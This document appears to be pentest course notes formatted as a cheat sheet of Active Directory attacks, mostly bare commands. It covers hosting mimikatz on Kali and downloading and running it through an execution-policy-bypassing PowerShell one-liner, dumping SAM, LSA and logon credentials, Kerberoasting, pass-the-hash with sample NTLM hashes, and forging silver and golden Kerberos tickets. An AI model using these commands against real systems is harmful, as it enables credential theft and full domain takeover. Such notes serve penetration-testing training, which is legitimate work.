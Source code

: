 # Cached Credential Storage and Retrieval
- Setup Kali to host `mimikatz`
```console
cp /usr/share/windows-resources/mimikatz/x64/mimikatz.exe .
sudo python3 -m http.server 80 &> /dev/null &
```
- Download and run `mimikatz` on host machine
  - Download: `(New-Object System.Net.WebClient).DownloadFile()`
  - Run: `Start-Process`
```console
powershell.exe -nop -Exec Bypass -Command (New-Object System.Net.WebClient).DownloadFile('http://kali.vx/mimikatz.exe', $env:APPDATA + '\mimikatz.exe'); Start-Process $env:APPDATA\mimikatz.exe
```
- mimikatz commands
```console
privilege::debug
token::elevate
lsadump::sam
lsadump::lsa /patch
sekurlsa::logonpasswords
```

# Service Account Attack (Kerberoasting)
```console
kerberos::list /export
sudo apt update && sudo apt install kerberoast
python /usr/share/kerberoast/tgsrepcrack.py wordlist.txt 1-40a50000-Offsec@HTTP~CorpWebServer.corp.com-CORP.COM.kirbi
```

# Pass the Hash

## pth-winexe
```console
pth-winexe -U offsec%00000000000000000000000000000000:2892d26cdf84d7a70e2eb3b9f05c425e //10.11.0.22 cmd
```
## mimikatz - sekurlsa::pth
```console
sekurlsa::pth /user:jeff_admin /domain:corp.com /ntlm:e2b475c11da2a0748290d 87aa966c327 /run:PowerShell.exe
```

# Silver Ticket
```console
kerberos::purge
kerberos::list
kerberos::golden /user:offsec /domain:corp.com /sid:S-1-5-21-1602875587-2787523311-2599479668 /target:CorpWebServer.corp.com /service:HTTP /rc4:E2B475C11DA2A0748290D87AA966C327 /ptt
kerberos::list
```

# Golden Ticket
```console
lsadump::lsa /patch
kerberos::purge
kerberos::golden /user:fakeuser /domain:corp.com /sid:S-1-5-21-1602875587-2787523311-2599479668 /krbtgt:75b60230a2394a812000dbfad8415965 /ptt
misc::cmd
psexec.exe \\dc01 cmd.exe
```

